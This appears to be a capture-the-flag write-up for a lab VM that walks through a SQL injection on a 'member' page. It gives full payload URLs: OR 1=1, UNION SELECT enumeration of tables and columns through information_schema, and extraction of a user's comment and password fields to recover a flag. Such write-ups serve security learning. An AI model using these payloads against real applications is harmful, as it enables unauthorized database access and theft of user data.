



# SQL Injection

url: http://192.168.56.110/?page=member

This URL connects to the MySQL database to list information about members and is vulnerable to SQL injections.

Exploitation in a few steps:

1. List all members with OR 1=1

```
http://192.168.56.110/?page=member&id=1%20OR%201=1&Submit=Submit#
```

We notice that one user has the name "Get The" and "Flag". We assume the flag is hidden in some properties of the user not displayed in this search.

2. Enumerate the database tables

We used a union select attack in order to list more information about the database and write it instead of the user' first name.

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema%20=%20database()%20--%20-&Submit=Submit#
```



3. Enumerate the users' columns

```
http://192.168.56.110/?page=member&id=1%20%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%20database()%20--%20-&Submit=Submit#
```


We now know the id of user "Get the Flag" and can narrow the injection to only display this user's information


4. List the other fields of the Get The Flag user

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(Commentaire,countersign),2%20from%20users%20where%20user_id=5--%20-&Submit=Submit#
```




Then we just have to do what the commentary ask and we have the flag.

Source: https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

## FLAG
[-- 🌱 --][2]

[2]: ./flag.txt